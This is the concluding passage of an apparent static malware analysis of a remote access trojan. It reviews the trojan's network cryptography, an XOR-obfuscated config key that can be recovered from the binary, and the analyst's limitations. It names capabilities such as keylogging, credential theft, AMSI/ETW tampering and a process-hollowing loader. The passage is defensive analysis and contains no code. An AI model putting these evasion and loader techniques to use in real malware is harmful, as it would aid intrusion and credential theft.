The RAT at the bottom is the opposite. Its network crypto is built from well-known, solid parts — X25519, BLAKE2s, ChaCha20-Poly1305 — put together the way a modern protocol would (ephemeral keys, per-direction keys and nonces, a pre-shared key that authenticates the server). The config was the only real weak point: a 32-byte XOR key with a rotation, sitting in the same binary, recoverable with nothing more than a hex dump and a bit of arithmetic.

### Limitations

- Fully static: I never ran the sample or contacted the C2, so the protocol is reconstructed from code, not from captured traffic.
- The KDF in this build actually goes through a small bytecode interpreter (`PVM\x02`, linked to the `.pvmut` section) with a fallback to the same BLAKE2s function. I didn't emulate the bytecode; it most likely computes the same thing.
- I didn't verify the Poly1305 construction byte for byte against RFC 8439 (AAD, length block).
- The capabilities list (HVNC, remote desktop, keylogging, credential theft, ETW/AMSI tampering, Pastebin fallback) comes from exports, imports and strings. Confirming them would mean reversing the command dispatcher that reads the `type` byte of decrypted packets.
- Which APIs the loader uses is confirmed (string table + `M7` offsets + delegate signatures); the order in which it calls them is deduced from the classic process hollowing pattern, not traced through `M0` line by line.
- I didn't decode the arguments stage 1 passes to `wscript.exe` (they're obfuscated by `DeepConfig2423`); the exact command line in the text is reconstructed from the string table.
- The `0xF9` GeoID reading is from memory of Microsoft's table, not checked on Windows.
